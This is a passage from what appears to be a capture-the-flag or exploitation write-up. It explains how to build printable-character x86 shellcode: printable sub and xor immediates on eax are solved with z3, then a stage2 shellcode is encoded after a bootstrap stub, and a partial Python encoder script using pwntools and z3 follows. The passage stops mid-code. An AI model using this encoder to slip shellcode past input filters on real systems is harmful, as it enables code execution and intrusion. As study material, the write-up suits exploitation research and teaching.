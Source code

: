 To do that, I made use of the `sub imm32` and `xor imm32` instructions available on `eax`. But hold on, our immediates also have to be printable too! I first tried only using `xor`, but that would mean I can't create the value `0x80`, for example. If we had `sub`, the key observation is that since there's underflow and overflow, all of the zero bytes could cancel out over multiple subtractions. To implement this, for each immediate value, I set up a system of bitvector equations and used `z3` to solve them. The solution encodes a printable way to create any arbitrary 32-bit value in `eax`.

With all of our primitives in place, it's trivial to just encode our stage2 binary shellcode into a series of dwords and write them one-by-one after our bootstrapping stub. The encoding is pretty inefficient; it's about 71-100 bytes per 4 bytes, so writing a small stage2 shellcode is important.

```python
#!/usr/bin/env python

from pwn import *
from z3 import *
import operator

def is_ok(b):
    return b >= 0x20 and b < 0x80

def is_ok32(i32):
    return reduce(operator.and_, is_ok_str(p32(i32)))

def is_ok_str(s):
    return map(is_ok, map(ord, s))

def check(shellcode):
    for b in shellcode:
        assert(is_ok(ord(b)))
    return True

# really f--king overkill
s = Solver()
def solve_add_eax(i32):
    for i in range(0,10):
        s.reset()
        x = BitVec('x', 32)
        variables = []
        for j in range(0, i):
            variables.append(BitVec('a%d' % (j,), 32))
        expr = x
        for var in variables[0:]:
            expr = expr - var
        s.add(ForAll(x, expr == x + BitVecVal(i32, 32)))
        for var in variables:
            for k in range(0, 32, 8):
                s.add(Extract(k+7, k, var) >= BitVecVal(0x20, 8))
                s.add(ULT(Extract(k+7, k, var), BitVecVal(0x7f, 8)))
        if str(s.check()) == 'sat':
            m = s.model()
            return map(int, map(str, map(m.evaluate, variables)))
    else:
        raise ValueError("couldn't solve eax=%08x" %(i32,))

def solve_set_eax(i32):
    for i in range(0,10):
        s.reset()
        z = BitVec('z', 32)
        variables = [z]
        for j in range(0, i):
            variables.append(BitVec('a%d' % (j,), 32))
        expr = BitVecVal(0, 32)
        for var in variables[1:]:
            expr = expr - var
```